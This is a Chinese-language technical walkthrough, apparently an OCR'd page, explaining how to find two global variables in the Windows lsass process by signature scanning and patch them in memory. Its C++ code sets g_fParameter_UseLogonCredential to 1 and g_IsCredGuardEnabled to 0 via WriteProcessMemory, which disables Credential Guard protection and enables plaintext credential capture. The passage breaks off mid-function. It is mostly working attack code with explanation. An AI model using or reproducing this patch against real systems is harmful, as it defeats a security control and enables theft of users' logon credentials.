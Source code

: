 得到的特征码地址被赋值给 `Search->result`，然后返回 `LsaSearchGeneric()` 函数后，将 `currentReference` 中获取的第一个偏移量加到特征码地址上，如下所示。

```c++
lsassMemory.address = (PBYTE)sMemory.result + currentReference->Offsets.off0;
```

这里得到 `cmp cs:g_fParameter_UseLogonCredential, ebx` 指令中保存 `g_fParameter_useLogonCredential` 变量偏移量的四个字节序列的地址。然后通过 `ReadProcessMemory()` 函数获取这四个字节序列的值到 `offset` 中，此时 `offset` 中保存了 `g_fParameter_useLogonCredential` 变量真正的偏移量。将 `sizeof(LONG)` 和 `offset` 加到 `rip` 指向的地址上即可得到 `g_fParameter_useLogonCredential` 变量的地址，如下所示。

```c++
if (status = ReadProcessMemory(cLsass->hProcess, lsassMemory.address, &offset, sizeof(LONG), NULL))
{
	*genericPtr = ((PBYTE)lsassMemory.address + sizeof(LONG) + offset);
}
```

同理可以获得 `g_IsCredGuardEnabled` 变量的地址。

至此，成功得到 `g_fParameter_useLogonCredential` 和 `g_IsCredGuardEnabled` 变量的地址。

### Patch Two Global Variables In Memory

得到两个变量的地址后，`PatchMemory()` 函数开始修补这两的变量的值，其通过 `WriteProcessMemory()` 函数向指定变量的地址写入修改值，从而将 `g_fParameter_useLogonCredential` 变量的值设为 1，`g_IsCredGuardEnabled` 变量的值设为 0，如下所示。

```c++
BOOL PatchMemory()
{
	BOOL status = FALSE;
	DWORD dwCurrent;
	DWORD UseLogonCredential = 1;
	DWORD IsCredGuardEnabled = 0;

	status = AcquireLSA();
	if (status)
	{
		if (ReadProcessMemory(cLsass.hProcess, g_fParameter_UseLogonCredential, &dwCurrent, sizeof(DWORD), NULL))
		{
			wprintf(L"[*] The current value of g_fParameter_UseLogonCredential is %d\n", dwCurrent);
			if (WriteProcessMemory(cLsass.hProcess, g_fParameter_UseLogonCredential, (PVOID)&UseLogonCredential, sizeof(DWORD), NULL))
			{
				wprintf(L"[*] Patched value of g_fParameter_UseLogonCredential to 1\n");
				status = TRUE;
			}
			else
				wprintf(L"[-] Failed to WriteProcessMemory for g_fParameter_UseLogonCredential.\n");
		}
		else
			wprintf(L"[-] Failed to ReadProcessMemory for g_fParameter_UseLogonCredential\n");


		if (ReadProcessMemory(cLsass.hProcess, g_IsCredGuardEnabled, &dwCurrent, sizeof(DWORD), NULL))
		{
			wprintf(L"[*] The current value of g_IsCredGuardEnabled is %d\n", dwCurrent);
			if (WriteProcessMemory(cLsass.hProcess, g_IsCredGuardEnabled, (PVOID)&IsCredGuardEnabled, sizeof(DWORD), NULL))
			{
				wprintf(L"[*] Patched value of g_IsCredGuardEnabled to 0\n");
				status = TRUE;
```